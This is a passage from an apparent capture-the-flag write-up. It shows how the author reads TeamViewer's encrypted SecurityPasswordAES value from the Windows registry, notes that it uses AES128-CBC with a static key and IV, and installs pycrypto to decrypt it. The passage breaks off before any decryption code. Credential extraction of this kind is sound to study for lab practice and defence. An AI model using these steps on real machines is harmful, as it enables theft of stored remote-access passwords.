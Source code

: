 ```
PSProvider                : Microsoft.PowerShell.Core\Registry
```

`SecurityPasswordAES` is there from the list above. It just dumps a list of integers:

```
PS HKLM:\software\wow6432node\teamviewer\version7> (get-itemproperty -path .).SecurityPasswordAES
255
155
28
115
214
107
206
49
172
65
62
174
19
27
70
79
88
47
108
226
209
225
243
218
126
141
55
107
38
57
78
91
```

#### Decrypt Password

{% embed url="https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/teamviewer_passwords.rb" %}

After some research, I found that it’s using AES128 in CBC mode with a static key and iv. We can easily recreate this in a few lines of Python but we need a library which is this one:

```
❯ pip3 install pycrypto
Defaulting to user installation because normal site-packages is not writeable
Collecting pycrypto
  Using cached pycrypto-2.6.1.tar.gz (446 kB)
Building wheels for collected packages: pycrypto
  Building wheel for pycrypto (setup.py) ... done
  Created wheel for pycrypto: filename=pycrypto-2.6.1-cp39-cp39-linux_x86_64.whl size=526405 sha256=eb0f71d1e11861ab7653b83ad0e3b0b50d37acb34e0f43641717b832ed3c6e61
  Stored in directory: /home/kali/.cache/pip/wheels/9d/29/32/8b8f22481bec8b0fbe7087927336ec167faff2ed9db849448f
Successfully built pycrypto
Installing collected packages: pycrypto
Successfully installed pycrypto-2.6.1
```
